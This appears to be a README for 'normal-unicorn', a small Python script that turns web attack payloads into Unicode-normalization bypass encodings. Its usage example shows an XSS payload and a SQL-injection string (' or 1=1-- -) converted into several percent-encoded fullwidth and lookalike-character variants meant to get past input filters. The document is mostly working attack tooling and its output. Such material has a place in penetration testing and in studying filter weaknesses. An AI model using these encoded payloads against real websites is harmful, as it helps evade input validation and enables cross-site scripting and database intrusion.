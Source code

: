 ## normal-unicorn 
A quick and dirty python script for encoding unicode normalization payloads

#### Usage
```bash
$ python3 normal-unicorn.py
Payload >> <script>alert(i)</script>
%e2%89%aescript%e2%89%afalert(i)%e2%89%ae%ef%bc%8fscript%e2%89%af
%ef%b9%a4script%ef%b9%a5alert(i)%ef%b9%a4%ef%bc%8fscript%ef%b9%a5
%ef%bc%9cscript%ef%bc%9ealert(i)%ef%bc%9c%ef%bc%8fscript%ef%bc%9e
%uff1cscript%uff1ealert(i)%uff1c%ef%bc%8fscript%uff1e
Payload >> ' or 1=1-- -
%ef%bc%87 or 1%e2%81%bc1%ef%b9%a3%ef%b9%a3 %ef%b9%a3
```
